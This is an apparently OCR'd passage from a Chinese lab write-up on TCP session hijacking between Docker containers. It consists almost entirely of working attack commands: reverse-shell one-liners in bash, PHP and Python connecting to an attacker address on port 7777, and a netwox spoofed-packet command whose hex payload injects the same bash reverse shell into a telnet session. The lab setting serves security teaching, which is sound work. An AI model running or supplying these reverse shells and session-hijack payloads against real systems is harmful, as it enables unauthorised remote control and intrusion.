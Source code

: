 ~~~bash
user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"

bash -i >& /dev/tcp/172.17.0.4/7777 0>&1
/bin/bash -c " /bin/bash -i >& /dev/tcp/172.17.0.4/7777  0>&1"



#php执行反弹shell
php -r '$f=fsockopen("targrt_ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$f=fsockopen("172.17.0.4",7777);exec("/bin/sh -i <&3 >&3 2>&3");'


#从python执行反弹shell
python -c 'import socket,subprocess,os; \
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("172.17.0.4",7777));\
os.dup2(s.fileno(),0);\
os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);\
p=subprocess.call(["/bin/sh","-i"]);'


~~~







#### 2.3.1 使用netwox实现



使用编号为40的Spoof Ip4Tcp packet进行会话劫持，查看它的用法如下

~~~bash
user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"


Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-l ip] [-m ip] [-o port] [-p port] [-q uint32] [-B]
Parameters:
-l|--ip4-src ip IP4 src {10.0.2.6}
-m|--ip4-dst ip IP4 dst {5.6.7.8}
-o|--tcp-src port TCP src {1234}
-p|--tcp-dst port TCP dst {80}
-q|--tcp-seqnum uint32 TCP seqnum (rand if unset) {0}
-H|--tcp-data mixed_data mixed data

netwox 40 -l 172.17.0.2 -m 172.17.0.3 -o 55618 -p 23 -H "62617368202d69203e26202f6465762f7463702f3137322e31372e302e342f3737373720303e26310d00" -q 1618441023 -r 625610549 --tcp-ack

~~~
